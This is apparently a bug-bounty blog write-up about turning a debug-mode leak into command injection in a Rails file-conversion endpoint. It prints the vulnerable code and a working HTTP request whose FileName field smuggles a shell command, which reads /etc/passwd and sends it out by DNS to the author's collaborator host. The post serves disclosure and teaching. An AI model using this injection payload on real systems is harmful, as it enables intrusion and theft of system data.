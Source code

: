 ```yaml
---
title: "Basic recon to RCE III"
date: 2022-10-18T18:00:00+01:00
hero: rce_banner.png
description: Basic recon to RCE II
menu:
  sidebar:
    name: Basic recon to RCE III
    identifier: Basic recon to RCE III
    weight: 10
---
```


For the 3rd and I think last episode of the series, we're going to continue with the same target as the episode 2, that I recommend you to go and see at first to put you a bit more in the context : [Basic recon to RCE II](/posts/2022/basic_recon_to_rce_ii/)

## The Story

So, after this first RCE discovered on the application, I wanted to continue to dig, especially because this debug mode displays a POST method on the endpoint `/convertdoctopdf`. So I immediately thought about a SSRF and as it's a bug that I like quite a lot, I wanted to dig it.

Another advantage of the debug mode (on Rails and maybe with other frameworks) is that if the application raises an exception, it will show you the part of the source code concerned in the response, which is pretty handy when you don't know which parameter you should use !

After a first POST request without body, the application displays an error 500 with the piece of code that concerns the error, which tells us that the `SessionId` parameter is missing. I spare you the details but this technique allowed me to obtain the complete code of the method :

```ruby
def convertdoctopdf
  header = {'Content-Type' =>'application/json','Authorization' => 'OAuth '+params['SessionId']}
  id = params['AttachmentId']
  baseURL = params['Url']
  fileName = params['FileName'] ? params['FileName']+(Time.now.to_i).to_s : 'fileconvert'+(Time.now.to_i).to_s
  uri = URI.parse(baseURL+"/services/data/v44.0/sobjects/Attachment/"+id+"/Body")
  
  https = Net::HTTP.new(uri.host,uri.port)
  https.use_ssl = true
  req = Net::HTTP::Get.new(uri.path, header)
  attachment = https.request(req)

  File.open("#{Rails.root}/public/#{fileName+'.docx'}", 'wb') { |f| f.write(attachment.body) }
  %x(/usr/bin/soffice --headless --convert-to pdf --outdir  "#{Rails.root}/public/file_conversion/" "#{Rails.root}/public/#{fileName+'.docx'}")

  outputfileBase64 = Base64.encode64(open("#{Rails.root}/public/file_conversion/#{fileName}.pdf").to_a.join);
 
  File.delete("#{Rails.root}/public/file_conversion/#{fileName+'.pdf'}") if File.exist?("#{Rails.root}/public/file_conversion/#{fileName+'.pdf'}")
  File.delete("#{Rails.root}/public/#{fileName+'.docx'}") if File.exist?("#{Rails.root}/public/#{fileName+'.docx'}")
 
  render json: {file: outputfileBase64}, status: :created, location: "Done"
end
```

Which can be described as follows:

  * `header` = Expects the SessionID parameter but is not important here, you can put anything
  * `id` = Waits for the AttachmentId parameter but is not important either, you can put anything too
  * `baseUrl` = Waits for the url parameter, just enter a valid URL
  * `fileName` = There is a ternary condition that makes it an optional parameter
  * Then a GET request is made, the content is saved to a file, converted to PDF and displayed to the user in base64

I had first stopped after leaking the HTTP request line thinking that was all I needed to trigger my SSRF. Except:

  * A GET request is made on the `URL + path /services/data/v44.0/sobjects/Attachment/"+id+"/Body"` but that can be easily bypassed by specifying a URL of type `https://domain.tld/?x=`, the path will then be forced as the parameter value.
    * The URL will become: `https://domain.tld/?x=/services/data/v44.0/sobjects/Attachment/"+id+"/Body"`
  * `https.use_ssl` = true which is the blocking point because it forces the use of HTTPS

Going back to our source code, I was saying that the body of the response is saved in a file (with the extension docx but in fact it doesn't matter, it's not a real docx but rather a simple text file) and then the soffice binary is called and converts this file into a PDF and displays the content of the PDF in base64 in the response. Something I didn't know yet because I was too focused on the SSRF and I could see in the return of my request in the answer and I didn't try to understand the cause.

I spent a few hours on the SSRF without being able to exploit it because :

  * The use of HTTPS prevents me from typing on internal URLs such as http://127.0.0.1
  * The target must have a valid certificate
  * For some reason I couldn't query a target using a let's encrypt certificate...

Anyway, after these blocking points, to try to inject some code in my PDF I used a Github repository on which I uploaded my PoC then I used the RAW URL (like `https://raw.githubusercontent.com/user/poc/master/poc.html`) to inject the content in the PDF. Unfortunately after many tries, the only tag that seemed to be interpreted was the `<title>` tag, the others were either deleted or not interpreted.

A little disappointed at the time, I gave up because I had other things to do.
That same day I spent the evening with my hunter friend Serizao, and I obviously told him my SSRF problem, we continued to dig together and to have a better overview, we recovered the complete code of the method above.

At this moment, a line directly appealed to us.

```ruby
%x(/usr/bin/soffice --headless --convert-to pdf --outdir  "#{Rails.root}/public/file_conversion/" "#{Rails.root}/public/#{fileName+'.docx'}")
```

The use of `%x()` is an alternative to the use of backticks which allows you to make a system call and display the output. Like backticks, `%x()` also allows string interpolation.

I explained above, that the FileName parameter is optional :
```ruby
fileName = params['FileName'] ? params['FileName']+(Time.now.to_i).to_s : 'fileconvert'+(Time.now.to_i).to_s
```

Because if it is not present, it is set with a default value automatically, but if it is present, it is equivalent to the user input (and this is where the vulnerability lies). The problem is that the string interpolation allows to inject an arbitrary command to execute an additional command to the soffice binary call.

Example to illustrate my point, inside `irb` :
```ruby
2.7.1 :001 > filename = '`id`'+Time.now.to_i.to_s
2.7.1 :002 > %x("#{filename}")
sh: uid=635388061(jomar) [...]1646581930: command not found
 => ""
2.7.1 :003 >
```

So we can see that the id command is executed.
With the following request, it is possible to escape the call to soffice and execute an arbitrary command, to show the vulnerability, I extracted the first characters of the `/etc/passwd` file :
```
POST /convertdoctopdf HTTP/1.1
Host: sub.target.tld
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 214
Content-Type: application/json;charset=UTF-8

{
  "SessionId":"1",
  "AttachmentId":"1",
  "FileName": "\" && getent hosts $(`echo aGVhZCAtYyA0IC9ldGMvcGFzc3dkCg== | base64 -d`).9blrzz2yqaikw8t47xdlfgsa91fr3g.private.collaborator.tld #\"",
  "Url":"https://www.google.com"
}
```

_Side note_ : a domain name can be 255 characters long but a subdomain is limited to 63 characters, think about it if you do a DNS extraction

Explanation of
```bash
"\" && getent hosts $(`echo aGVhZCAtYyA0IC9ldGMvcGFzc3dkCg== | base64 -d`).9blrzz2yqaikw8t47xdlfgsa91fr3g.private.collaborator.tld #\"
```

  * `\"` : Allows to close the parameter pass to soffice binary for the file name
  * `&&` : Indicates that a second command is being processed
  * `getent hosts` : Not having `curl`, `dig`, `ping` etc... available in the environment I used `getent hosts` to execute a DNS query
  * `$(echo aGVhZCAtYyA0IC9ldGMvcGFzc3dkCg== | base64 -d)` : To avoid encoding problems because of the `/` which raises an error with the File.open so, we put our command in base64
    * `echo aGVhZCAtYyA0IC9ldGMvcGFzc3dkCg== | base64 -d => head -c 4 /etc/passwd`. The first 4 characters of the `/etc/passwd` file which correspond to root
      * `9blrzz2yqaikw8t47xdlfgsa91fr3g.private.collaborator.tld` : My private burp collaborator server
      * `#\"` : Allows you to comment out the end of the line and the `"` to avoid a syntax error in the command

In the end, the executed command will be :
```bash
/usr/bin/soffice --headless --convert-to pdf --outdir "folder/public/file_conversion/" "folder/public/" && getent hosts $(`echo aGVhZCAtYyA0IC9ldGMvcGFzc3dkCg== | base64 -d`).9blrzz2yqaikw8t47xdlfgsa91fr3g.private.collaborator.tld #\".pdf").to_a.join);
```

{{< img src="RCE_POC.png" align="center" title="PoC RCE">}}

## Conclusion

A bug that I found super interesting and was also present for a long time. I know because I had already identified this method more than 6 months ago but I had not taken the time to dig.

What made the difference today is something that is very well explained here: [Corben Leo - Hacking CAN be easy](https://twitter.com/hacker_/status/1509147518638116866). I've been developing small web / api applications on my own time for several months now and I use Ruby on Rails, in addition to giving me a good knowledge of the framework, it also gives me a better vision of a developer and sometimes I do sh*t because I want to go fast or because it annoys me and if I make these mistakes, why shouldn't others do it too ?

But also probably because rather than going from domain to domain looking for the ugly stuff that looks vulnerable, I thought I really wanted to exploit this thing and so I spent some time on it. Which shows once again that sometimes it's much more interesting to focus on an application and understand it than to try to find a magic domain and spread payloads around without understanding what you're doing